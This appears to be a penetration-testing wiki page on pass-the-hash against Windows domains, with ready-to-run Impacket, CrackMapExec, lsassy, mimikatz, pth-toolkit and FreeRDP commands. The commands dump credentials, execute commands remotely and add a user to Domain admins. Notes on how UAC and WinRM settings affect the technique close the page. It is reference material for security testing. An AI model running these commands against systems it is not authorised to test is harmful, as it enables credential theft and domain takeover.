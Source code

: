 # Pass the hash
MITRE ATT&CK™ Sub-technique T1550.002

An attacker knowing a user's NT hash can use it to authenticate over NTLMv1 \(pass-the-hash\) \(or indirectly over Kerberos with [overpass-the-hash](../abusing-kerberos/overpass-the-hash.md)\).

There are many tools that implement pass-the-hash: [Impacket scripts](https://github.com/SecureAuthCorp/impacket) \([psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py), [smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py), [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)\), [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec), [FreeRDP](https://github.com/FreeRDP/FreeRDP), [mimikatz](https://github.com/gentilkiwi/mimikatz), [lsassy](https://github.com/Hackndo/lsassy), [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)  and more.

The Impacket script [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) has the ability to remotely dump hashes and LSA secrets from a machine \(`LMhash` can be empty\). dumping credentials from registry hives
```bash
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
secretsdump.py -hashes ':NThash' 'DOMAIN/USER@TARGET'
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) has the ability to do it on a set of targets. The `bh_owned` has the ability to set targets as "owned" in [BloodHound](https://github.com/BloodHoundAD/BloodHound). (dumping credentials from registry hives)
```bash
crackmapexec smb $TARGETS -u $USER -H $NThash --sam --local-auth
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --lsa
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --lsassy
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --ntds
```

[Lsassy](https://github.com/Hackndo/lsassy) has the ability to do it with higher success probabilities as it offers multiple dumping methods. This tool can set targets as "owned" in [BloodHound](https://github.com/BloodHoundAD/BloodHound). It works in standalone but also as a [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) module \(dumping credentials from lsass process memory).
```bash
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=Somepassw0rd
lsassy -u $USER -H $NThash $TARGETS
lsassy -d $DOMAIN -u $USER -H $NThash $TARGETS
```

Some Impacket scripts enable testers to execute commands on target systems with pass-the-hash \(`LMhash` can be empty\).
```bash
psexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
smbexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
wmiexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
atexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
dcomexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) has the ability to do it on a set of targets
```bash
crackmapexec winrm $TARGETS -d $DOMAIN -u $USER -p $PASSWORD -x whoami
crackmapexec smb $TARGETS --local-auth -u $USER -H $NThash -x whoami
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -x whoami
```

On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) can pass-the-hash and open an elevated command prompt.
```bash
sekurlsa::pth /user:$USER /domain:$DOMAIN /ntlm:$NThash
```

The [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) can be used from a Linux system to operate LDAP queries, add a user to a group and so on \(`LMhash` can be `ffffffffffffffffffffffffffffffff`\).
```bash
pth-net rpc group members "Domain admins" -U 'Domain/User%LMhash:NThash' -S $DOMAIN_CONTROLLER
pth-net rpc group addmem "Domain admins" Shutdown -U 'Domain/Admin%LMhash:NThash' -S $DOMAIN_CONTROLLER
```

[FreeRDP](https://github.com/FreeRDP/FreeRDP) has the ability to do pass-the-hash for opening RDP sessions.
```bash
xfreerdp /u:$USER /d:$DOMAIN /pth:'LMhash:NThash' /v:$TARGET /h:1010 /w:1920
```

**UAC limits pass-the-hash**
UAC \(User Account Control\) limits which local users can do remote administration operations. And since most of the attacks exploiting pass-the-hash rely on remote admin operations, it affects this technique.

* the registry key `LocalAccountTokenFilterPolicy` is set to `0` by default. It means that the built-in local admin account \(RID-500, "Administrator"\) is the only local account allowed to do remote administration tasks. Setting it to `1` allows the other local admins as well.
* the registry key `FilterAdministratorToken` is set to `0` by default. It allows the built-in local admin account \(RID-500, "Administrator"\) to do remote administration tasks. If set to `1`, it doesn't.

In short, by default, only the following accounts can fully take advantage of pass-the-hash:

* **local accounts** : the built-in, RID-500, "Administrator" account
* **domain accounts** : all domain accounts with local admin rights

**WinRM enables pass-the-hash**
Testers should look out for environments with WinRM enabled. During the WinRM configuration, the `Enable-PSRemoting` sets the `LocalAccountTokenFilterPolicy` to `1`, allowing all local accounts with admin privileges to do remote admin tasks, hence allowing those accounts to fully take advantage of pass-the-hash.